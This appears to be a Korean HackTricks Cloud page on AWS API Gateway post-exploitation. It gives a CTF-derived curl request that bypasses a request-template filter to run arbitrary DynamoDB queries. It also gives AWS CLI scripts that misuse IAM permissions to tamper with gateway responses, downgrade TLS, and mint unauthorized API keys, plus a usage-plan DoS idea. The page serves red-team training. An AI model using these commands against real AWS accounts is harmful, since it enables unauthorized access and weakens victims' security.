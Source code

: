 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
AWS 해킹 학습 및 연습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 연습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.**
* **PR을 제출하여 해킹 트릭을 공유하세요:** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소.

</details>
{% endhint %}

## API Gateway

더 많은 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 노출되지 않은 API에 접근하기

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:)에서 `com.amazonaws.us-east-1.execute-api` 서비스를 사용하여 엔드포인트를 생성하고, 접근할 수 있는 네트워크(잠재적으로 EC2 머신을 통해)에 엔드포인트를 노출시키고 모든 연결을 허용하는 보안 그룹을 할당할 수 있습니다.\
그런 다음, EC2 머신에서 엔드포인트에 접근하여 이전에 노출되지 않았던 게이트웨이 API를 호출할 수 있습니다.

### Request body passthrough 우회

이 기술은 [**이 CTF 작성**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp)에서 발견되었습니다.

[AWS 문서](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html)의 `PassthroughBehavior` 섹션에 명시된 대로, 기본적으로 **`WHEN_NO_MATCH`** 값은 요청의 **Content-Type** 헤더를 확인할 때, 변환 없이 요청을 백엔드로 전달합니다.

따라서, CTF에서 API Gateway는 `Content-Type: application/json`으로 요청이 전송될 때 응답에서 플래그가 유출되지 않도록 하는 통합 템플릿을 가지고 있었습니다:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

그러나 **`Content-type: text/json`**으로 요청을 보내면 해당 필터를 피할 수 있습니다.&#x20;

마지막으로, API Gateway가 `Get`과 `Options`만 허용하고 있었기 때문에, 본문에 쿼리를 포함한 POST 요청을 보내고 헤더에 `X-HTTP-Method-Override: GET`을 사용하여 제한 없이 임의의 dynamoDB 쿼리를 보낼 수 있었습니다:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

**Enumeration** 섹션에서 키의 **사용 계획을 얻는 방법**을 볼 수 있습니다. 키를 가지고 있고 그것이 **한 달에 X번 사용으로 제한**되어 있다면, **그것을 사용하여 DoS를 일으킬 수 있습니다**.

**API Key**는 **`x-api-key`**라는 **HTTP 헤더**에 **포함**되어야 합니다.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 Gateway Response를 수정하여 민감한 정보를 유출하거나 악성 스크립트를 실행하는 커스텀 헤더 또는 응답 템플릿을 포함시킬 수 있습니다**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potential Impact**: 민감한 정보의 유출, 악성 스크립트 실행, 또는 API 리소스에 대한 무단 접근.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage`와 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway 스테이지를 수정하여 트래픽을 다른 스테이지로 리디렉션하거나 캐싱 설정을 변경하여 캐시된 데이터에 무단 접근할 수 있습니다**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potential Impact**: 캐시된 데이터에 대한 무단 접근, API 트래픽 방해 또는 가로채기.

{% hint style="info" %}
Need testing
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway REST API 메서드의 메서드 응답을 수정하여 민감한 정보를 유출하거나 악성 스크립트를 실행하는 커스텀 헤더 또는 응답 템플릿을 포함시킬 수 있습니다**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potential Impact**: 민감한 정보의 유출, 악성 스크립트 실행, 또는 API 리소스에 대한 무단 접근.

{% hint style="info" %}
Need testing
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **API Gateway REST API 설정을 수정하여 로깅을 비활성화하거나 최소 TLS 버전을 변경하여 API의 보안을 약화시킬 수 있습니다**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**잠재적 영향**: API의 보안을 약화시켜 비인가 접근을 허용하거나 민감한 정보를 노출시킬 수 있습니다.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey` 권한을 가진 공격자는 **새로운 API 키를 생성하고 이를 사용 계획에 연결한 후, 이러한 키를 사용하여 API에 비인가 접근을 할 수 있습니다**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**잠재적 영향**: API 리소스에 대한 무단 접근, 보안 통제 우회.

{% hint style="info" %}
테스트 필요
{% endhint %}

{% hint style="success" %}
AWS 해킹 학습 및 연습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 연습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.
* PR을 제출하여 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}
